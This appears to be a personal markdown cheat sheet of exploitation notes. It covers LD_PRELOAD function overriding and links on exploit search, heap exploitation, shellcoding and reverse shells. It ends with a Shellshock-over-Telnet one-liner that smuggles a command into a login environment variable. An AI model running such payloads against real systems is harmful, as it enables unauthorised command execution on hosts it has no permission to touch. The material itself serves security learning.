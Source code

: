 # LD_PRELOAD
- Load a custom library and override functions of a program
```
g++ test.cpp -std=c++11 -shared -o test.so -fPIC  #PIC=Position independent code
LD_PRELOAD=test.so ldd ./exampleapp
```

# Search
- https://sploitus.com/
- Syscall table: https://w3challs.com/syscalls/

# References
- Heap Exploitation | Playing with chunks!: https://0x00sec.org/t/heap-exploitation-playing-with-chunks/2055
- Heap Exploitation - Fastbin Attack: https://0x00sec.org/t/heap-exploitation-fastbin-attack/3627
- Analysis of public exploits or my 1day exploits: https://github.com/externalist/exploit_playground
- Shellcoding for Linux and Windows Tutorial: http://www.vividmachines.com/shellcode/shellcode.html
- Voltron is an extensible debugger UI toolkit written in Python: https://github.com/snare/voltron
- Reverse Shell from an OpenVPN Configuration File: https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da

# Shellshock over Telnet

```
telnet 192.168.0.1 -l "() { :;}; /usr/bin/id"

```
